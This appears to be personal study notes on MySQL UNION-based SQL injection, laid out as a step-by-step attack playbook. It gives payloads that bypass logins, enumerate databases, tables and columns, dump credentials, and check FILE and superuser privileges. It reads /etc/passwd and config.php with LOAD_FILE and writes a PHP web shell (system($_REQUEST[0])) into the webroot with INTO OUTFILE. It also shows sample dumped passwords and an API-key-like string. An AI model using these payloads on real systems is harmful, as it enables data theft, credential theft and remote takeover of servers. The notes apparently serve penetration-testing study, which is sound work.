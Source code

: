 
SELECT * FROM logins WHERE username='admin' AND password = '47bce5c74f589f4867dbd57e9ca9f808';

admin') or '1'='1'-- -

SELECT * FROM logins WHERE (username='admin' AND id > 1)-- - AND password = '47bce5c74f589f4867dbd57e9ca9f808';
test' OR id = 5)-- -


# dump name databases

UNION select 1,database(),2,3-- -

## dump databases:
		UNION select 1,2,SCHEMA_NAME,4 FROM INFORMATION_SCHEMA.SCHEMATA-- - 
		
### example:
		UNION select 1,2,schema_name,4 from INFORMATION_SCHEMA.SCHEMATA-- -
		DATABSES="information_schema,mysqL,performance_schema,backup,dev"

## dump tables

	' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='name_db'-- -

### example

	' union select 1,table_name,table_schema,4 from information_schema.tables where table_schema='dev'-- -
	TABLES="framework,pages,credentials,posts"

## dump columns

	' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='name_table'-- -

### example
	' union select 1,column_name,table_name,table_schema from information_schema.columns where table_name='credentials'-- -

COLUMNS="username,password"

## dump data

	UNION select 1, username, password, 4 from dev.credentials-- -
### example :
	union select  1,username,password 4 from dev.credentials-- -
### OR	
	union select  1,2,group_concat(username,":",password),4 from dev.credentials-- -

		admin	password	
		dev_admin	admin123	
		api_key	MzkyMDM3ZGJiYTUxZjY5Mjc3DFNGFDmQ2YFGDF2VmYjZkZDU0NmHGFDQgIC0K	
		software_engineer	3920aaaaadfsdf37dbba51f692776d6cefb6dd546d

if want understand a lot information linke website mysql
https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html

## Reading Files:

Privileges:eading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in MySQL, the DB user must have the FILE privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

## DB User:
	SELECT USER()
	SELECT CURRENT_USER()
	SELECT user from mysql.user

### commands : 
		UNION SELECT 1, user(), 3, 4-- -
		UNION SELECT 1, user, 3, 4 from mysql.user-- -

## User Privileges
Now that we know our users, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

		SELECT super_priv FROM mysql.user

### example:
	
		UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -

## Notes:
 		UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
		THis payload return in page ('Y') which means YES, indicating superuser privileges. We can also dump other privileges we have directly

SELECT sql_grants FROM information_schema.sql_show_grants

Once again, we can add WHERE user="root" to only show our current user root privileges. Our payload would be:

' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -
return in page YES or Y 

all of the possible privileges given to our current user:


## LOAD_FILE:
		SELECT LOAD_FILE('/etc/passwd');
	example:
	 	UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

	 	Another Example:
	 		We know that the current page is index.php. The default Apache webroot is /var/www/html. Let us try reading the source code of the file at /var/www/html/index.php
	 		UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
			
## Writing Files
	When it comes to writing files to the back-end server, it becomes much more restricted in modern DMBSes, since we can utilize this to write a web shell on the remote server, hence getting code execution and taking over the server. This is why modern DBMSes disable file-write by default and require certain privileges for DBA's to write files. Before writing files, we must first check if we have sufficient rights and if the DBMS allows writing files.

	### Write File Privileges
		To be able to write files to the back-end server using a MySQL database, we require three things:
		User with FILE privilege enabled
		MySQL global secure_file_priv variable not enabled
		Write access to the location we want to write to on the back-end server

		We have already found that our current user has the FILE privilege necessary to write files. We must now check if the MySQL database has that privilege. This can be done by checking the secure_file_priv global variable.

### secure_file_priv:

		SHOW VARIABLES LIKE 'secure_file_priv';
		SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
	### example:
				' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
				look return payload in page that the secure_file_priv value is empty, meaning that we can read/write files to any location 

		### SELECT INTO OUTFILE:

			SELECT * from users INTO OUTFILE '/tmp/credentials';
			SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
			select 'file written successfully!' into outfile '/var/www/html/proof.txt'
		### example:
			' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

## Writing a Web Shell

Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. We can write the following PHP webshell to be able to execute commands directly on the back-end server:		

	<?php system($_REQUEST[0]); ?>

	### example
			' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

			https://www.website.com//shell.php?0=id
